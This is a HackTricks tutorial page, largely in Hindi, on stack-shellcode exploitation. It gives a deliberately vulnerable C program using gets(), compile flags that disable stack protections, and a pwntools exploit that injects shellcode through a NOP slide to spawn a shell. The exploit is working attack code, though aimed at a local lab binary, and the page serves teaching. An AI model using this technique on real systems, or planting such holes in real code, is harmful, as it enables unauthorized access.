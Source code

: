 # Stack Shellcode

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**स्टैक शेलकोड** एक तकनीक है जो बाइनरी शोषण में उपयोग की जाती है जहाँ एक हमलावर एक कमजोर प्रोग्राम के स्टैक पर शेलकोड लिखता है और फिर **इंस्ट्रक्शन पॉइंटर (IP)** या **एक्सटेंडेड इंस्ट्रक्शन पॉइंटर (EIP)** को इस शेलकोड के स्थान की ओर इंगित करने के लिए संशोधित करता है, जिससे यह निष्पादित होता है। यह एक क्लासिक विधि है जिसका उपयोग अनधिकृत पहुंच प्राप्त करने या लक्षित प्रणाली पर मनमाने आदेश निष्पादित करने के लिए किया जाता है। यहाँ प्रक्रिया का एक विवरण है, जिसमें एक सरल C उदाहरण और यह कैसे आप **pwntools** के साथ एक संबंधित शोषण लिख सकते हैं।

### C Example: A Vulnerable Program

चलो एक कमजोर C प्रोग्राम के सरल उदाहरण से शुरू करते हैं:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
यह प्रोग्राम `gets()` फ़ंक्शन के उपयोग के कारण बफ़र ओवरफ़्लो के लिए संवेदनशील है।

### संकलन

इस प्रोग्राम को संकलित करने के लिए जबकि विभिन्न सुरक्षा उपायों को निष्क्रिय किया गया है (संवेदनशील वातावरण का अनुकरण करने के लिए), आप निम्नलिखित कमांड का उपयोग कर सकते हैं:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: स्टैक सुरक्षा को अक्षम करता है।
* `-z execstack`: स्टैक को निष्पादन योग्य बनाता है, जो स्टैक पर संग्रहीत शेलकोड को निष्पादित करने के लिए आवश्यक है।
* `-no-pie`: पोजीशन इंडिपेंडेंट एक्सीक्यूटेबल को अक्षम करता है, जिससे यह अनुमान लगाना आसान हो जाता है कि हमारा शेलकोड किस मेमोरी पते पर होगा।
* `-m32`: प्रोग्राम को 32-बिट निष्पादन योग्य के रूप में संकलित करता है, जो अक्सर शोषण विकास में सरलता के लिए उपयोग किया जाता है।

### Python Exploit using Pwntools

यहां बताया गया है कि आप **pwntools** का उपयोग करके **ret2shellcode** हमले के लिए Python में एक शोषण कैसे लिख सकते हैं:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
यह स्क्रिप्ट एक पेलोड बनाती है जिसमें **NOP स्लाइड**, **शेलकोड** शामिल होता है, और फिर **EIP** को NOP स्लाइड की ओर इशारा करने वाले पते से ओवरराइट करती है, यह सुनिश्चित करते हुए कि शेलकोड निष्पादित हो जाए।

**NOP स्लाइड** (`asm('nop')`) का उपयोग इस संभावना को बढ़ाने के लिए किया जाता है कि निष्पादन हमारे शेलकोड में "स्लाइड" करेगा चाहे सटीक पता कुछ भी हो। अपने बफर के प्रारंभिक पते के लिए `p32()` तर्क को समायोजित करें और NOP स्लाइड में पहुंचने के लिए एक ऑफसेट जोड़ें।

## सुरक्षा

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) **को बंद किया जाना चाहिए** ताकि पता निष्पादन के दौरान विश्वसनीय हो या जिस पते पर फ़ंक्शन संग्रहीत होगा वह हमेशा एक जैसा नहीं होगा और आपको यह पता लगाने के लिए कुछ लीक की आवश्यकता होगी कि जीत फ़ंक्शन कहाँ लोड हुआ है।
* [**स्टैक कैनरीज़**](../common-binary-protections-and-bypasses/stack-canaries/) को भी बंद किया जाना चाहिए या समझौता किया गया EIP रिटर्न पता कभी नहीं फॉलो किया जाएगा।
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) **स्टैक** सुरक्षा शेलकोड के स्टैक के अंदर निष्पादन को रोक देगी क्योंकि वह क्षेत्र निष्पादन योग्य नहीं होगा।

## अन्य उदाहरण और संदर्भ

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64बिट, ASLR के साथ स्टैक पता लीक, शेलकोड लिखें और उस पर कूदें
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32 बिट, ASLR के साथ स्टैक लीक, शेलकोड लिखें और उस पर कूदें
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32 बिट, ASLR के साथ स्टैक लीक, exit() को कॉल करने से रोकने के लिए तुलना, एक मान के साथ वेरिएबल को ओवरराइट करें और शेलकोड लिखें और उस पर कूदें

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
